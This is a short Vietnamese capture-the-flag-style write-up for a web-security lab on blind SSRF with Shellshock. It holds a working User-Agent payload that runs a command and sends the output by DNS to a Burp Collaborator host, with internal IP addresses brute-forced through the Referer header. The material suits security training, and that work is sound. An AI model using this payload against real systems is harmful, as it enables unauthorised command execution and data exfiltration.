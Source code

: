 ## Blind SSRF with Shellshock exploitation

***Lab này sẽ hướng dẫn chúng ta tấn công shellshock mà không cần xác thực bằng cách sử đổi user-agent thành đoạn ngôn ngữ bash (description bảo vậy :v).***

Dưới đây là định nghĩa về 1 hàm shellshock thực thi hợp lệ

![](/imgs/SSRF/25.png?raw=true)

Ta sẽ bắt request của 1 post bất kì có **referer** và sửa **user-agent** lại thành đoạn lệnh tấn công shellshock.

```markdown
**User-Agent: () { :; }; /usr/bin/nslookup $(whoami).d2g3w36drwscrp50gyy9uuy4cvin6c.burpcollaborator.net**
```

Mục đích là để DNS tới Burp Collaborator + Referer sẽ sửa lại như ở description của lab để là 192.168.0.x:8080

Sau khi Brute từ 1->255 chúng ta sẽ Pool những request đã gửi tới, request sẽ có format domain là tên user ($(whoami)).host

![](/imgs/SSRF/26.png?raw=true)

Submit lên tên user là solve lab

![](/imgs/SSRF/27.png?raw=true)

### Tài liệu tham khảo
- OSWAP Shellshock: [https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)